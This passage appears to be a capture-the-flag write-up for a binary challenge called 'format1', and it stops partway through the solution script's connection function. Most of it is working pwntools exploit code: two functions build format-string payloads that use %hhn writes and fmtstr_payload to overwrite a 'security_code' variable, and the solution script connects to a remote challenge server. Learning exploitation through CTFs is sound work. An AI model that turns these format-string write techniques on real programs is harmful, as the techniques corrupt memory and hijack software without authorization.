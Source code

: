 
```python
def manual_payload():
    # address of security code
    # or you can use 'nm format1 | grep "security_code"' command to get the address
    #dest = 0x404050
    dest = elf.sym["security_code"]
    #val  = 0x64657461

    # 4 bytes -- xxxxxxxx    index                                  (0x00 written)
    payload  = b'%93c----'   # 14   93  = 0x61 - 0x00 - 4           (0x61 written)
    payload += b'%21$hhn-'   # 15   write 0x61 on index 21          (0x62 written)
    payload += b'%14c----'   # 16   14  = 0x74 - 0x62 - 4           (0x74 written) 
    payload += b'%22$hhn-'   # 17   write 0x74 on index 22          (0x75 written)
    payload += b'%236c---'   # 18   236 = 0x64 + 0x100 - 0x75 - 3   (0x164 written)(overflow)
    payload += b'%24$hhn-'   # 19   write 0x64 on index 24          (0x165 written)(overflow)
    payload += b'%23$hhn-'   # 20   write 0x65 on index 23          (done)
    payload += p64(dest)     # 21
    payload += p64(dest + 1) # 22
    payload += p64(dest + 2) # 23
    payload += p64(dest + 3) # 24

    return payload
```

This is the faster and better way to build the payload.

```python
def auto_payload():
    # address of security code
    # or you can use 'nm format1 | grep "security_code"' command to get the address
    #dest = 0x404050
    dest = elf.sym["security_code"]
    val  = 0x64657461

    write = {
            dest : val
            }
    
    # adjust the write size if it is not working (byte, short, int)
    payload = fmtstr_payload(14, write, write_size="byte")

    return payload
```


### Solution
```python
#!/usr/bin/env python3

from pwn import *
import time

elf = ELF("./format1_patched")

context.binary = elf
context.terminal = ["alacritty", "-e", "sh", "-c"]
dbginit = """
b main
"""


def conn():
    if args.REMOTE:
        r = remote("34.130.180.230", 5675)
    elif args.GDB:
```